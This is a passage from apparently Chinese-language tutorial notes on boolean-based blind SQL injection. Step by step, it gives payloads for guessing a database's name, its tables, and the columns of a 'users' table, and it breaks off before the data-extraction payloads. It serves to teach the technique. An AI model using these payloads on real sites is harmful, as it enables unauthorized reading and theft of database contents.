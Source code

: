 与显式注入相同



#### 2、猜解数据库名

1. **猜解数据库名的长度**

   `and length(database()) = 1 #` 

   ...

2. **猜解数据库名**

   `and ascii(substr(database(),1,1)) = 97 #` 

   

#### 3、猜解数据库中的表名

1. **猜解数据库中表的数量**

   `and (select count(table_name) from information_schema.tables where table_schema = database()) = 1 #` 

2. **挨个猜解表名**

   - **判断表的长度**

     `and length(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1)) = 1 #` 

   - **猜表名**

     `ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1)) = 103 #`

#### 4、猜解表中字段名

1. **猜解表中字段数量**

   `and (select count(column_name) from information_schema.columns where table_name = 'users') = 1 #` 

2. **猜解字段名**

   - **判断字段长度**

     `and length(substr((select column_name from information_schema.columns where table_name = 'users' limit 0,1),1)) = 1 #`

   - **猜解字段名**

     `1' and ascii(substr((select column_name from information_schema.columns where table_name = 'users' limit 3,1),1,1)) = 117 #`

#### 5、猜解数据

1. **猜解数据数量**

2. **猜解数据**

   - **猜解数据长度**
